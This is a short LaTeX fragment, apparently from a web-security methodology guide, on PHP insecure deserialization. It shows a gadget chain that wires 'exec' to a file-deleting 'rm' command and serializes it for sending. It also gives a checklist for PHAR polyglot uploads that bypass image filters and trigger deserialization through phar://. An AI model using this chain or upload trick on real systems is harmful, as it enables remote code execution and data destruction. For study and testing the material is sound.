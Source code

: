 \documentclass[11pt]{article}
\begin{document}
Chain construction:
\begin{lstlisting}[style=code]
// Step 1: Create the sink gadget (DefaultMap)
$sink = new DefaultMap();
$sink->callback = "exec";

// Step 2: Create the bridge (CustomTemplate)
$trigger = new CustomTemplate();
$trigger->default_desc_type = "rm /home/carlos/morale.txt";  // Command
$trigger->desc = $sink;  // Wire the sink into the trigger

// Step 3: Serialize and send
echo base64_encode(serialize($trigger));
\end{lstlisting}

\subsubsection{Path F: PHAR Deserialization (PHP)}
\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Identify file upload functionality (avatars, images, documents)
    \item[\checkmark] Build a PHAR archive with the malicious object as metadata
    \item[\checkmark] Wrap PHAR in valid JPEG/GIF header (polyglot) to bypass upload filters
    \item[\checkmark] Upload as avatar/image
    \item[\checkmark] Trigger via \texttt{phar://} filesystem wrapper in any filesystem function
    \item[\checkmark] Common triggers: \texttt{file\_exists()}, \texttt{is\_dir()}, \texttt{getimagesize()}, \texttt{unlink()}
\end{itemize}
\end{checklistbox}

\begin{causebox}
\texttt{phar://} deserializes archive metadata \textit{implicitly} — the vulnerable code never calls \texttt{unserialize()} directly. This is the most dangerous edge case because it bypasses standard security reviews that check for \texttt{unserialize()} calls.
\end{causebox}

\section{Phase 5: Impact Confirmation}
\end{document}
